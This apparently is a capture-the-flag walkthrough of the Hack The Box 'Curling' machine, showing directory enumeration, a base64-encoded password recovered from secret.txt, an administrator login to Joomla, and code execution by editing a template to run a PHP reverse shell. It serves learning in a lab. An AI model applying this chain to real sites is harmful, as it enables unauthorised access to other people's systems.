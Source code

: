 # 10 - HTTP


# CMS, PHP, Username floris
![](vx_images/4984354231789.png)

Index page contains quite a lot of information. First things first, the webserver is running Joomla which is essentially a CMS. The other important piece of information is that author of the first post is Floris, it could be a username. Also the date is 22 May 2018.


# secret.txt
```bashh
┌─[user@parrot]─[10.10.14.7]─[~/htb/curling]
└──╼ $ cat gobuster/initial-x.log  |grep -v 403
/images               (Status: 301) [Size: 313] [--> http://10.10.10.150/images/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.150/includes/]
/cache                (Status: 301) [Size: 312] [--> http://10.10.10.150/cache/]
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.150/modules/]
/templates            (Status: 301) [Size: 316] [--> http://10.10.10.150/templates/]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.150/media/]
/plugins              (Status: 301) [Size: 314] [--> http://10.10.10.150/plugins/]
/index.php            (Status: 200) [Size: 14266]
/language             (Status: 301) [Size: 315] [--> http://10.10.10.150/language/]
/administrator        (Status: 301) [Size: 320] [--> http://10.10.10.150/administrator/]
/tmp                  (Status: 301) [Size: 310] [--> http://10.10.10.150/tmp/]
/components           (Status: 301) [Size: 317] [--> http://10.10.10.150/components/]
/bin                  (Status: 301) [Size: 310] [--> http://10.10.10.150/bin/]
/libraries            (Status: 301) [Size: 316] [--> http://10.10.10.150/libraries/]
/LICENSE.txt          (Status: 200) [Size: 18092]
/.                    (Status: 200) [Size: 14246]
/layouts              (Status: 301) [Size: 314] [--> http://10.10.10.150/layouts/]
/secret.txt           (Status: 200) [Size: 17]
/configuration.php    (Status: 200) [Size: 0]
/README.txt           (Status: 200) [Size: 4872]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 310] [--> http://10.10.10.150/cli/
```

secret.txt can also be found as a comment in the html source.

```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/curling]
└──╼ $ curl -s 10.10.10.150 | tail -3
</body>
      <!-- secret.txt -->
</html>
```


# Password
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/curling]
└──╼ $ curl -s http://10.10.10.150/secret.txt  | base64 -d ;echo
Curling2018!
```

We have potential credentials. Let's try to log in.

* Floris:Curling2018!

# Administrator
![](vx_images/721385966258.png)

Login is successful.

# Code execution by modifying a template
![](vx_images/4345118770928.png)


We can access the template by going to Extensions --> Templates --> Beez3 --> index.php. With template preview we can execute our malicious php code. I prefer php-reverse-shell.php but I think one liners are totally fine too.


# Shell

![](vx_images/5543304858171.png)
